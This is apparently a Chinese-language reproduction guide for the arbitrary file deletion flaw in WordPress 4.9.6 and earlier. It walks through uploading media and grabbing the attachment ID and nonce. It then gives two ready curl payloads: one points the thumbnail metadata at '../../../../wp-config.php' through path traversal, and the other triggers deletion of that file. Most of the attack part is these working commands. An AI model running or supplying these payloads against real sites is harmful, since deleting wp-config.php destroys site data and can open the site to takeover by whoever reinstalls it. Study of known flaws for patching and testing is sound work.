 # Wordpress <= 4.9.6 任意文件删除漏洞

> 原文：[http://book.iwonder.run/0day/Wordpress/20.html](http://book.iwonder.run/0day/Wordpress/20.html)

## 一、漏洞简介

利用条件 L：需要进入后台

## 二、漏洞影响

## 三、复现过程

### 添加新媒体

访问[http://0-sec.org/wp-admin/upload.php，然后上传图片。](http://0-sec.org/wp-admin/upload.php，然后上传图片。)

![image](img/9659297bf48a66e5173518f8dc83d91d.png)

### 将$ meta ['thumb']设置为我们要删除的文件

#### 单击我们在中上传的图像 Step 2，并记住图像的 ID。

![image](img/2b5982b3ebe8820d1c96f3ecd6671c73.png)

#### 访问[http://0-sec.org/wp-admin/post.php?post=4&action=edit._wpnonce 在页面源中查找](http://0-sec.org/wp-admin/post.php?post=4&action=edit._wpnonce 在页面源中查找)

![image](img/1b93f1420293e282b9c587f6454ba44b.png)

#### 发送有效载荷：

```
curl -v 'http://0-sec.org/wp-admin/post.php?post=4' -H 'Cookie: ***' -d 'action=editattachment&_wpnonce=***&thumb=../../../../wp-config.php' 
```

![image](img/a7d979ff0b130a3542c16f315a857278.png)

### 发动攻击

#### 在页面源码中查找 _wpnonce

![image](img/07ede3df108874eb65be4438d6b961e6.png)

#### 发送有效载荷

```
curl -v 'http://9c9b.vsplate.me/wp-admin/post.php?post=4' -H 'Cookie: ***' -d 'action=delete&_wpnonce=***' 
```

![image](img/fc77dfe588125bcec350ca5cb18fbbb3.png)

#### 刷新页面

![image](img/386c093059db9dce7ef96fda633bf028.png)


